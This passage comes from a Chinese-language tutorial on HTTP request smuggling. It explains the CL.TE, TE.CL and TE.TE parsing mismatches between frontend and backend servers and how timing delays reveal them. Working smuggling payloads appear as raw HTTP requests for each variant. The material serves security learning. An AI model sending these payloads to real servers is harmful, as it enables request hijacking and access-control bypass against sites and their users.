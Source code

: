 a会被认作下一个请求的一部分，留在缓冲区等待剩余的请求，此时再有GET就会被拼接为`aGET / HTTP/1.1\r\n`，畸形的`aGET`会造成解析异常

```http
aGET / HTTP/1.1
Host: 1.com
....
```

如果存在这样的漏洞，发送上面的payload会造成延时（后端服务器等下一个chunk来清掉缓冲区

#### TE.CL

前端服务器`Transfer-Encoding`，后端服务器`Content-Length`标头

```http
POST / HTTP/1.1
Host: example.com
...
Content-Length: 4
Transfer-Encoding: chunked

17
POST /rook1e HTTP/1.1

0
[空白行]
[空白行]
```

前端服务器分块传输长度为17的块`POST /rook1e HTTP/1.1\r\n`，后端则根据CL=4截取到`17\r\n`并把后面的放入缓冲区，此时再有GET就会被拼接为`POST /rook1e`走私请求

```http
POST /rook1e HTTP/1.1

0

GET / HTTP/1.1
....
```

如果存在这样的漏洞，发送上面的payload会造成延时（后端服务器等待剩余部分

#### TE.TE

前端和后端服务器都支持`Transfer-Encoding` 标头，但是容错性上表现不同，可以通过以某种方式来诱导其中一个服务器不处理它，变为上面两种之一

```http
POST / HTTP/1.1
Host: 1.com
Content-Type: application/x-www-form-urlencoded
Content-length: 4
Transfer-Encoding[空格]: chunked

5c
GPOST / HTTP/1.1
Content-Type: application/x-www-form-urlencoded
Content-Length: 15

x=1
0
[空白行]
[空白行]
```
